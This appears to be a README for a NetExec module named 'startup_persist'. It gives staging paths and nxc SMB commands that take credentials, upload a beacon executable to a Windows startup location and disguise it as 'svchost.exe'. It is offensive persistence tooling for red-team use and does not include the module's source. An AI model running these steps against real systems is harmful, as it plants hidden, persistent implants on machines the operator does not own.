# NXC-Extension

## Staging
```
Save Python script to:
/home/kali/.nxc/modules/startup_persist.py
/usr/lib/python3/dist-packages/NetExec/nxc/modules/startup_persist.py

```

## Execution
```
nxc smb $IP -u '$username' -p '$password' -M startup_persist -o FILEPATH=/home/kali/Desktop/beacon.exe FILENAME=svchost.exe
  or
nxc smb $IP -u '$username' -p '$password' -M startup_persist -o FILEPATH=/home/kali/Desktop/beacon.exe FILENAME=svchost.exe USER=$user
```

![nxcpic](https://github.com/user-attachments/assets/f29bbb7a-1926-45a6-9f52-9f82e26127a3)

### Video
https://vimeo.com/1076489136

